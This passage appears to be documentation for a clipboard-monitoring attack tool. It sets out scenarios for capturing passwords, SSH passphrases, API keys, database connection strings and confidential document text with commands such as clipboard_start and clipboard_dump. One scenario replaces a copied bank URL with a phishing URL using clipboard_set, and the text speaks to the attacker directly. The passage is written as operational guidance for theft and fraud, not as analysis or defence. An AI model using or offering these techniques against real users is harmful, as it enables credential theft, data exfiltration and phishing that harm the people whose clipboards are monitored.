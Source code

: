 **What gets captured:**

- Password manager passwords
- Database credentials
- Email passwords
- SSH passphrases
- API keys

---

### Scenario 2: Document Theft

```bash
# User works with confidential documents
# Copies sections for emails, reports, etc.

clipboard_start

# User copies:
# - Financial data
# - Trade secrets
# - Legal information
# - Personal data

clipboard_dump
# Result: Partial document content
```

---

### Scenario 3: Credential Harvesting

```bash
# User copies connection strings:
# "Server=prod;User=admin;Pass=secret"

clipboard_start

# Monitor during development work
# Captures:
# - Database connection strings
# - API endpoints with tokens
# - SSH connection details
# - VPN credentials

clipboard_dump
```

---

### Scenario 4: URL Injection (Phishing)

```bash
# User copies legitimate bank URL
clipboard_get
# Shows: https://secure-bank.com/login

# Replace with phishing URL
clipboard_set https://fake-bank-login.com/steal

# User pastes YOUR URL
# Thinks they're going to their bank
# Actually going to your phishing page
```

---